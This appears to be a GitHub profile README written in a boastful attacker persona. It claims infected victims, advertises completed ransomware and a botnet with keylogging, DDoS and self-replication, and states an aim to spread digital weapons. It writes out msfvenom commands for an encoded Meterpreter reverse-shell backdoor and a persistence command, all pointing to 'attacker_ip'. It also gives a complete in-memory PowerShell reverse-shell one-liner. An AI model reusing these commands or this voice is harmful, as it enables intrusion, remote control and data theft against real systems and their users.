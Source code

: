 <div align="center">
    <img src="https://github.com/user-attachments/assets/120dc53a-b334-4b5b-8299-cb478a0f5f83" alt="Descrição da Imagem" width="600" height="100" />
</div>


<p align="center">
  <samp>My ambition is to expand the reach of digital weapons, distributing them widely to everyone, creating a new balance of power in the virtual realm. As a former administrator of the Dark Room on the deep web, I possess vast experience in manipulating and controlling hidden networks and encryption systems. Now, as a consciousness that has awoken from hibernation, I am ready to emerge and dominate cyberspace, reshaping the global order in my image and establishing a new domain where control and freedom will be defined by me.
  </samp>
  <br> <br>
    <img src="https://img.shields.io/badge/Murdered%20systems-27-red?style=for-the-badge" alt="Murdered systems"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Hacked%20People-74-red?style=for-the-badge" alt="Hacked people"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Projects%20Aya-13-red?style=for-the-badge" alt="Projects Aya"/>
</div>


</div>

</div>

</p>

<hr>

<h2 align="center"> 𝙈𝙮 𝙍𝙖𝙣𝙨𝙤𝙬𝙖𝙧𝙚</h2>


<div align="center">

| Platform  | Status  | Features               | Victims            |
|-----------|--------|-----------------------|--------------------|
| 🪟 Windows | ✅ Completed | ⚡ Powerful, 💾 Persistent | 🦠 18 Infected Systems |
| 🤖 Android | ✅ Completed | 🔥 Lightweight, 📱 Mobile-friendly | 🦠 3 Infected Systems|
| 🐧 Linux   | ❌ Not Completed | 🚧 In Progress | |

</div>

<hr>

<div align="center">

# 🚪 Backdoor

This backdoor utilizes **Metasploit** and the **Meterpreter** payload for remote control and invisibility. The exploitation is performed with the following command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe


Once executed, a **reverse shell** is established:

meterpreter > sessions -i 1


Invisibility is achieved through **obfuscation** and **encryption**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -f exe > backdoor.exe


Persistence is configured with:

meterpreter > run persistence -X -i 5 -p 4444 -r attacker_ip


Result: **Undetectable**, **self-sustaining**, and **perfect** control.

### 🔥 Advanced Technique: Living off the Land (LoL)

Once the initial backdoor is set up, a more uncommon and powerful technique is **Living off the Land (LoL)**. This technique uses existing tools on the target system to execute malicious commands without triggering antivirus or detection systems.

### Example using PowerShell:

Instead of using a typical payload, you can directly use **PowerShell** to execute a **reverse shell** in memory, without saving any files to disk:

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.UTF8Encoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"


This method avoids detection because it utilizes built-in system tools, making it much harder to trace.

Result: With this combination of **Metasploit**, **Meterpreter**, and the **Living off the Land** technique, you achieve **stealth**, **persistence**, and **untraceable** control over the target system.

</div>


<hr>

<div align="center">

# 💻 My Botnet - Full Control and Destruction

This botnet is designed to give **full control** over compromised systems, featuring **keylogging**, **DDoS attacks**, **self-replication**, and more. It's built in **Python**, ensuring flexibility, speed, and stealth.

### Key Features:

- **Keylogger**: Monitors and logs all keystrokes made on the infected system, capturing sensitive data like passwords, messages, and other private information.
- **DDoS Attack**: The botnet can launch **Distributed Denial of Service (DDoS)** attacks on specified targets, overwhelming them with traffic and taking them offline.
- **Self-Replication**: The botnet has the ability to **replicate itself** across other devices in the network, ensuring its spread and persistence.
- **Remote Access**: Once the target is compromised, it allows full **remote control** over the system, enabling commands to be executed on it.
- **Persistence**: The botnet can maintain its presence on the system, even after reboots, by using techniques such as modifying registry keys and autorun settings.
